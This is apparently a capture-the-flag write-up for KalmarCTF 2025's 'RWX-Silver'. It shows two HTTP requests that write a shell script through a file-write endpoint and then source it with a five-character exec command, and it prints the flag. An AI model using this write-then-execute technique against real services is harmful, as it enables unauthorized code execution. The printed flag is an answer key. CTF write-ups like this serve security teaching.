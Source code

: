 ```yaml
---
title: RWX-Silver
type: writeup
date: 2025-03-10T03:00:19+03:00
description: Writeup for RWX-Silver [KalmarCTF 2025]
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Apparently that was too much!

## Intuition

The challenge is similar to `RWX-Bronze`, but now the length of the command is 5 characters. I used the same idea, but wrote the script into the home directory.

## Solution

Write the script:
```
POST /write?filename=/home/user/a HTTP/2

#!/bin/sh
/would you be so kind to provide me with a flag
```

Execute the command: `. ~/a`
```
GET /exec?cmd=.%20~/a HTTP/2
```

### Flag

`kalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}`
